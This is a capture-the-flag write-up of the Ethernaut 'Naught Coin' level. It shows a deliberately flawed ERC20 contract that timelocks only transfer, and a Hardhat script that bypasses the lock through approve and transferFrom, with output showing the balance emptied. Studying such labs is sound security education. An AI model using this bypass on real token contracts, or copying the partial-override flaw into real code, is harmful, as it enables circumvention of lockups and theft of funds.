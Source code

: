 ```yaml
---
title: Ethernaut \#15 Naught Coin
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Naught Coin challenge writeup
---
```


## Naught Coin

### Challenge

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help

* The [ERC20](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) Spec
* The [OpenZeppelin](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) codebase


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

### Background

This challenge is very simple if one knows/learns the `erc20` interface. If we look closely there is more than one ways `erc20` tokens can be transfered.

`approve(address spender, uint256 amount)` and `function transferFrom(address from, address to, uint256 amount)` are functions that allow someone to spend tokens without being the owner. Those functions are useful when interacting with some middleman/broker contract. For example a user might want to buy an NFT from a marketplace. The user can allow the marketplace contract to spend funds by calling the `approve` function with the address of the marketplace and the amount the marketplace can spend. Then, when the swap is to happen, the marketplace can `transferFrom` the original address to some address up to the amount that was approved.

### Attack

The contract here only timelocks the `transfer` function, not the `transferFrom` and `approve` functions. This will allow the owner of the tokens to `approve` some address (even its self) to spend the tokens, and then use `transferFrom` to send them to another account.

* use the `approve` function to allow some address (even self) to spend the full amount of tokens
* use the `transferFrom` function to send the funds to some other account


#### nauthg-coin-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    naughtCoinAddress = "0xC316BA23E78dB02313f32C386C3773960d76C9dA";
    contract = await ethers.getContractAt("NaughtCoin", naughtCoinAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)

    // get current balance
    balance = await contract.balanceOf(account.address)
    console.log("Current Balance: " + balance)

    // approve self to spend funds
    tx = await contract.connect(account).approve(account.address, balance)
    receipt = await tx.wait()

    // spend funds using transferFrom
    tx = await contract.connect(account).transferFrom(account.address, accounts[1].address, balance)
    receipt = await tx.wait()

    // get new balance
    console.log("New Balance: " + await contract.balanceOf(account.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/naught-coin-solve.js --network rinkeby
Level address  : 0xC316BA23E78dB02313f32C386C3773960d76C9dA
Current Balance: 1000000000000000000000000
New Balance    : 0
```

### Success Message

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
